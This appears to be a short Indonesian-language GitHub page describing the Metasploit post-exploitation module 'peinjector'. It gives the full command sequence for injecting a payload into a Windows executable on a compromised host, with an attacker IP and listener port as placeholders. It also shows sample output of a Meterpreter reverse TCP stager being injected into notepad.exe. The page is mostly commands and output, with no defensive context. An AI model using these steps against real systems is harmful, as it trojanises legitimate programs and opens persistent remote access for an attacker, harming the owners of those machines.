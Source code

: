 # peinjector

Modul `peinjector` di Metasploit adalah modul `post-exploitation` untuk sistem Windows yang digunakan untuk menyuntikkan payload Metasploit ke dalam file PE (Portable Executable) seperti `.exe` pada komputer target.

## Cara Penggunaan di Metasploit

```
use post/windows/manage/peinjector
set LHOST <IP_ATTACKER>
set LPORT <PORT_LISTENER>
set PAYLOAD <PAYLOAD>
set SESSION <ID>
set TARGETPE <PATH_EXECUTABLE>
set VERBOSE true
run
```

Hasil output-nya seperti ini:

```
[*] Running module against ADMIN-PC
[*] Generating payload
[*] Injecting Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse TCP Stager into the executable C:\\Users\\Public\\Downloads\\notepad.exe
[+] Successfully injected payload into the executable: C:\\Users\\Public\\Downloads\\notepad.exe
[*] Post module execution completed
```
